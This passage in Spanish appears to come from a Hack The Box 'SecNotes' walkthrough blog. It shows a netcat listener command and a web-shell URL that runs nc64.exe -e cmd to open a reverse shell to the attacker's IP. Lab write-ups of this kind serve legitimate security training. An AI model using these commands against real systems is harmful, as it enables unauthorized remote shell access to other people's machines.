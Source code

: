 ![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/34.png){:class="blog-image" onclick="expandImage(this)"} 

Nos pondremos en escucha a través del puerto que determinemos.

```
sudo nc -nlvp <puertoCualquiera>
```

Para finalmente a través del navegador añadir lo siguiente al url.

```
/cmd.php?cmd=nc64.exe -e cmd <nuestraDirecciónIP> <puertoCualquiera>
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2022-02-28-SecNotes-Hack-The-Box/35.png){:class="blog-image" onclick="expandImage(this)"} 
